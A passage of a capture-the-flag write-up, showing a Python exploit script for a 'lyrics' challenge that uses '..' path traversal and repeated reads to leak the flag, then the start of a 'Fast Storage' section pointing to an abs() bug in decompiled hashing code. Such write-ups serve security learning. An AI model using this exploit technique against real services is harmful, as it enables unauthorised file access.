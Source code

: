 ```python
def bands():
    cmd("bands")

def songs(band):
    cmd("songs")
    sla("Band: ",band)

def _open(band,song):
    cmd("open")
    sla("Band: ",band)
    sla("Song: ",song)

def _read(idx):
    cmd("read")
    sla("ID: ",str(idx))

def _write(idx,content):
    cmd("write")
    sla("ID: ",str(idx))
    sla("length: ",str(len(content)+1))
    sa(": ",content)

def _close(idx):
    cmd("close")
    sla("ID: ",str(idx))

if __name__ == '__main__':
    for i in xrange(16):
        _open("..",'lyrics')

    for i in xrange(16):
        for j in xrange(24):
            _read(0)
    
    for i in xrange(12):
        _open('The Beatles','Girl')

    _open("..",'flag')
    for i in xrange(31):
        _read(0)
    _read(12)
    _read(0)
    p.interactive()
```



### Fast Storage

This challenge is also interesting. The only bug is in the `abs`

```cpp
  v2 = hash1(name);
  v3 = hash2((unsigned __int8 *)name);
  v4 = hash3(name);
  idx = abs(v2) % 62;
  add_entries(idx, name, value);
  return add_bitmaps(idx, v3, v4);
```
